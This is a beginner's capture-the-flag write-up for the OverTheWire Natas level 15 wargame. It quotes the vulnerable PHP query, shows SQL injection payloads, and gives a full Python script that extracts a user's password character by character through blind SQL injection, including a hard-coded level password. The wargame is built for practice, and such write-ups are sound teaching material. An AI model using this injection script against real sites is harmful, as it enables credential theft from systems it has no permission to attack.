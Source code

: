 ```yaml
---
layout: post
title: Natas15 Writeup
categories:
  - CTF writeups
  - natas
tags:
  - beginner
  - sqli
  - python
  - script
description: First Writeup! On OverTheWire Natas Wargame 15
date: 2024-10-25 22:49 -0400
---
```


### First Glance

Looking at the source code:

```php
if(array_key_exists("username", $_REQUEST)) {
    ...

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    ...
```

### Attack Vector

In line 3, there would be our SQL injection point as `username` field
is the only way to manipulate the query.

Also by looking at line 11, if the query returns at least 1 row, we
would have an indicator that our query is true (`The user exists`).

So for the first try, I made this query:

> `" OR 1=1 #`

(Using `#` for comment as only that worked in natas14), which worked pretty nicely.

### Where I got stuck

Then I tried a few things, knowing the username is natas16 and the password length
is 32 by comparing the previous passwords. We got another query:

> `natas16" AND SUBSTRING(password, 1, 1) = "a" #`

This query worked for the most part, I placed it in the script to get all
the characters, even verified it with the SQLi by placing the whole password in there.
But here comes the problem, why can't I get authorized to the next stage?

### Solution

Then I did some more research, found out that there's a SQL Keyword called `LIKE`,
where you can combine with `%` to check if the word start with that. Also when combined
with `BINARY` it can check case sensitive. Hence we have the final script:

```python
import requests
from requests.auth import HTTPBasicAuth
from halo import Halo


url = "http://natas15.natas.labs.overthewire.org/index.php"
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
auth = HTTPBasicAuth(username, password)
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pw_len = 32

passwd = ""


with Halo(text="Enumerating", spinner="dots") as loading:
    loading.start()
    print("\n")
    for i in range(1, pw_len + 1):
        for char in charset:
            # Move cursor up two lines and clear them before printing the new update
            print("\033[F\033[K\033[F\033[K", end="")

            data = {
                "username": f'natas16" AND password LIKE BINARY "{passwd + char}%" #'
            }

            print(f"Password: {passwd}\nQuery: {data}")

            r = requests.post(url, auth=auth, data=data)
            if "exists" in r.text:
                passwd += char
                break

print(f"Final password: {passwd}")

```
